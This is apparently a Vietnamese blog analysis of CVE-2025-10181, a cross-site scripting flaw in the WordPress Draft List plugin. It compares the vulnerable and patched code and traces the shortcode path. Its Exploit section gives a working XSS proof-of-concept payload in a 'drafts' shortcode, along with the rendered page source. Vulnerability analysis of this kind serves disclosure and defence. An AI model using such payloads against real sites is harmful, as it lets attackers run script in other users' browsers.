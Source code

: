 ```yaml
---
title: CVE-2025-10181 Analysis & POC
description: Security Vulnerability in WordPress  Draft List Plugin.
date: 2025-09-22 15:38:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
---
```


Lỗ hổng trong plugin ** Draft List** trước phiên bản **2.6.1**. Dữ liệu được lấy từ **GET** request được in trực tiếp vào **HTML attribute**, **reflected XSS** xảy ra khi người dùng có đặc quyền truy cập vào đường dẫn do attack cung cấp.
- **CVE ID**: [CVE-2025-10181](https://www.cve.org/CVERecord?id=CVE-2025-10181)
- **Product**: [WordPress  Draft List Plugin](https://wordpress.org/plugins/simple-draft-list)
- **Vulnerability Type**: Cross Site Scripting
- **Affected Versions**: <= 2.6
- **CVSS severity**: Low (6.5)
- **Required Privilege**: Contributor

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- ** Draft List**: v3.3.23(vul) và v2.6.1(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis
### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **inc/create-lists.php**.

**Bản lỗi**:

```php
$template   = html_entity_decode( $template );
```

**Bản vá**:

```php
$allowed_list = draft_list_allowed_html();

$template   = wp_kses( html_entity_decode( $template ), $allowed_list );

function draft_list_allowed_html() {

	$allowed_list = array(
		'a'          => array(
			'class' => array(),
			'href'  => array(),
			'rel'   => array(),
			'title' => array(),
		),
		'abbr'       => array(
			'title' => array(),
		),
		// Other logic
	);

	return $allowed_list;
}
```

Bản vá sử dụng [`wp_kses`](https://developer.wordpress.org/reference/functions/wp_kses/) để loại bỏ tất cả thẻ, thuộc tính hoặc giá trị không hợp lệ => Ngăn chặn tấn công XSS từ nội dung người dùng.

![Patch Diff](images/posts/2025-09-22-CVE-2025-10181/patch_diff.png)

### How It Work?
Trong cùng file **inc/create-lists.php**:

1. Shortcode với tên `drafts` được đăng ký bằng hàm `add_shortcode` nhận `draft_list_shortcode` làm callback.

```php
add_shortcode( 'drafts', 'draft_list_shortcode' );
```

2. `draft_list_shortcode` kiểm tra tồn tại và lấy các **attribute** của shortcode, sau đó trả về kết quả của `draft_list_generate_code`, với các đối số là những biến đã được khởi tạo và xử lý trước đó.

```php
function draft_list_shortcode( $paras = '' ) {
	// other logic
	$template  = '';

	if ( array_key_exists( 'template', $paras ) ) {
		$template = $paras['template'];
	}
	// other logic
	
	return draft_list_generate_code( $limit, $type, $order, $scheduled, $folder, $date, $created, $modified, $template, $words, $pending );
}
```

3. `draft_list_generate_code` là hàm dùng để tạo mã **HTML** danh sách các bài viết nháp (**drafts**) dựa trên các tham số đầu vào.

```php
function draft_list_generate_code_template_only( $drafts, $template = '', $list_limit = 0, ... ) {
    $code = '';
    $template = html_entity_decode( $template );
	$erorr = false

	// Kiểm tra template để đảm bảo rằng nó có chứa tag bắt buộc {{draft}} hoặc %draft%.
	if ( strpos( $template, '%draft%' ) === false && strpos( $template, '{{draft}}' ) === false ) {
		$code .= draft_list_report_error( __( 'The template must include the {{draft}} tag', 'simple-draft-list' ), $plugin_name, false );
		$error = true;
	}

	if (!error){
		$status = array( 'draft' );

		// Lấy danh sách có post có status=draft 
		$args = array(
			'post_status' => $status,
			'post_type'   => $type,
			'numberposts' => 99,
			'orderby'     => $sort_field,
			'sort_order'  => $sort_sequence,
		);

		$drafts = get_posts( $args );

		// Duyệt các draft
		$valid_draft = 1;
		foreach ( $drafts as $draft_data ) {
			if ( $valid_draft > $list_limit && $list_limit > 0 ) break;

			$draft_title = $draft_data->post_title;

			if ( $list ) $this_line = "\t<li>"; else $this_line = '';
			$this_line .= $template;
			if ( $list ) $this_line .= "</li>";

			$code .= $this_line . "\n";
			$valid_draft++;
		}
	}

    return $code;
}
```

Với mỗi `$draft_data`, nội dung của `$template` được concat trực tiếp vào `$this_line`.

Sau đó `$this_line` được concat vào `$code`.

Cuối cùng `$code` là toàn bộ HTML được trả về và hiển thị trong trình duyệt.

**Điều quan trọng**:

- Hàm không **lọc** hay **escape** `$template` trước khi concat, nên nếu `$template` chứa payload XSS, payload đó sẽ được in thẳng ra HTML.
- Ta cần điều kiện `!error`=`true` để `foreach ( $drafts as $draft_data )` được diễn ra => cần có `{{draft}}` hoặc `%draft%` trong `$template`

## Exploit 
### Detect XSS
Tạo post mới với shortcode `drafts` chứa attribute `template` chứa XSS payload và **save draft**:

```
[drafts template='{{draft}} <img src=x onerror=alert(document.domain)>']
```

**View Source**

```html
<div class="entry-content alignfull wp-block-post-content has-global-padding is-layout-constrained wp-block-post-content-is-layout-constrained"><a href="http://localhost/wp-admin/post.php?post=110&amp;action=edit" rel="nofollow">tét</a> <img decoding="async" src="x">
Privacy Policy <img decoding="async" src="x">

</div>
```

---
